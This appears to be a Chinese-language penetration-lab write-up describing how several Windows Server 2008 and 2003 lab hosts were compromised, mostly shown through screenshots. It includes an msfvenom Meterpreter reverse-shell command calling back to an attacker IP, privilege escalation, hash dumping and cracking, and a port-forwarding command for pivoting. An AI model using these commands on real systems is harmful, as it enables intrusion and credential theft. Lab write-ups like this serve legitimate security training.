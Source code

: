 ## server 2008A

在kali下首先发现目标

```
arp-scan -l
```

![image-20200603142735256](wp-photo\a.png)

确定目标ip：172.20.10.148，目标有webshell，直接蚁剑链接

![image-20200603150009428](wp-photo\image-20200603150009428.png)

然后用mscvenom生成反弹shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.20.10.150 LPORT=4444 -f exe -o test.exe
```

生成后上传到目标机内

![image-20200603150035215](wp-photo\image-20200603150035215.png)

在攻击机内运行msfconsole，用于监听目标反弹过来的shell

![image-20200603150403083](wp-photo\image-20200603150403083.png)

在目标机上运行test.exe，就可以在攻击机上获取到shell

![image-20200603150632673](wp-photo\image-20200603150632673.png)

尝试getsystem，发现失败

![image-20200603150927512](wp-photo\image-20200603150927512.png)

尝试获取hash，提示没有权限

![image-20200603151114297](wp-photo\image-20200603151114297.png)

那么现在要做的就是提权了

先将当前session放到后台，使用uac提权，首先查看一下需要设置的参数

![image-20200603151417624](wp-photo\image-20200603151417624.png)

设置好session之后，run，重新起了一个session

![image-20200603151512576](wp-photo\image-20200603151512576.png)

这个时候再getsystem就可以直接提权了

![image-20200603151554119](wp-photo\image-20200603151554119.png)

抓一下hash

![image-20200603152304009](wp-photo\image-20200603152304009.png)

在线解一下可以得到密码

![image-20200603152433167](wp-photo\image-20200603152433167.png)

## server 2008B

这个是和2008A在同一内网下的主机，不通外网，需要进行代理

我们现在已经获取了2008A的高权限shell，内网扫描一下，加一下路由（期间kali崩了，换了parrot

![image-20200605170654577](wp-photo\image-20200605170654577.png)

然后内网常规操作，先扫一波ms17-010

![image-20200605170843100](wp-photo\image-20200605170843100.png)

由于内网靶机2008B不能互通，所以在2008A上进行端口转发

此时架构如下，说来有点绕，此时的B是2008A，C是2008B

![image-20200605194305600](wp-photo\image-20200605194305600.png)

大概需要

1. 生成目标机器后门，反连Server设置成B的IP，端口4455；
2. B上开启端口转发，将本地4455的流量转发到A的4466端口，运行EXP；
3. A上开启MSF监听本机4466端口；
4. A上成功得到来自B机器任意端口的Meterpreter Session；

首先在2008A上进行代理

```
ew_for_Win.exe -s lcx_tran -l 4455 -f 172.20.10.150 -g 4466
```

![image-20200605200153884](wp-photo\image-20200605200153884.png)

然后直接打，一打链接就断，失败，到此结束，遛了遛了



## server 2003A

账号：cs

密码：空密码

登录进去传个test.exe，msfconsole接收

![image-20200603163144361](wp-photo\image-20200603163144361.png)

尝试直接getsystem，失败

![image-20200603163213949](wp-photo\image-20200603163213949.png)

尝试提权，搜索一下可用exp

```
use post/multi/recon/local_exploit_suggester
```

![image-20200603164045456](wp-photo\image-20200603164045456.png)

随便选一个，直接提权

![image-20200603164225593](wp-photo\image-20200603164225593.png)

抓一下hash

![image-20200603164310342](wp-photo\image-20200603164310342.png)

cmd5解一下，发现都是付费的，告辞

